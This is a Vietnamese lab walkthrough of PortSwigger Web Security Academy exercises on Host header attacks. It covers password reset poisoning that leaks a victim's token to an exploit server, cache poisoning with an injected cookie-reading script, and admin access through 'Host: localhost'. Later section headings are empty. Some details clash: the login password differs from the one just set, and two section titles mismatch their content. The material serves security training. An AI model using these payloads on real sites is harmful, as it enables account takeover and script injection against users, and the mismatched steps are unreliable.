 # 1. Basic password reset poisoning
Dùng chức năng forgot password với tham số `username=wiener` rồi vào Email Client kiểm tra, thấy URL để reset password là `https://0a07003004a3df1ec0903b3f0007004e.web-security-academy.net/forgot-password?temp-forgot-password-token=R9Qgu9I1N6a2aN3P3siCSAQoNtJkOu2k`.

Thử thay đổi header `Host: test.com` rồi gửi lại, thì kết quả URL reset trở thành `https://test.com/forgot-password?temp-forgot-password-token=1kbaGZSQ0CofoeyPFQKHXUasCLvaewHH`. Như vậy website cấu hình URL reset password sử dụng Host header. 

Ta thay đổi header `Host: exploit-0a08009d04bfdf7bc0a03a1a018100ea.exploit-server.net` và chỉnh tham số `username=carlos`. Sau khi submit, vào Access Log kiểm tra thì thấy có request gửi đến chứa một reset password token:
```
10.0.4.223      2023-03-06 02:02:50 +0000 "GET /forgot-password?temp-forgot-password-token=PF9X5fUYYSTSeNjUjRK4Dxhrtw5TGKQO HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.119 Safari/537.36"
```
Đó là reset token của user carlos. Ta truy cập `https://0a07003004a3df1ec0903b3f0007004e.web-security-academy.net/forgot-password?temp-forgot-password-token=PF9X5fUYYSTSeNjUjRK4Dxhrtw5TGKQO` rồi tiến hành đổi mật khẩu thành `hello`, sau đó đăng nhập với credentials `carlos:password`, kết quả thành công. 

# 2. Host header authentication bypass
Trong Home page có một đoạn tracking script:
```
<script type="text/javascript" src="//0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net/resources/js/tracking.js">
```
Ta thử thêm một duplicate Host header vào trong request sử dụng Burp Repeater:
```
GET / HTTP/1.1
Host: 0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net
Host: test.com
```
Khi đó, domain name trong tracking script cũng trở thành `test.com`. Để ý rằng website có sử dụng cache, và khi ta thay đổi Host header thứ 2 thì cache vẫn trả về trạng thái "hit". Như vậy ta có thể exploit web cache poisoning như sau:

Gửi request `GET /` với header
```
Host: 0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
```
Submit đến khi response chứa tag script được lưu vào cache. Khi victim truy cập home page, lệnh alert sẽ được thực thi.

Như vậy, bài lab được giải thành công.

# 3. Web cache poisoning via ambiguous requests
Thử vào URL `/admin` thì thấy thông báo "Admin interface only available to local users". 

Bắt request sử dụng Burp Repeater. Khi thay đổi header `Host: localhost` thì ta vẫn có thể truy cập được website, đồng thời "Admin panel" được hiển thị. Từ đó, ta khám phá ra được để delete user carlos thì ta cần gửi request đến `/admin/delete?username=carlos`. Cấu hình request như sau:
```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
....
```
Sau khi submit, bài lab được giải.

# 4. Routing-based SSRF

# 5. SSRF via flawed request parsing

# 6. Host validation bypass via connection state attack

# 7. Password reset poisoning via dangling markup
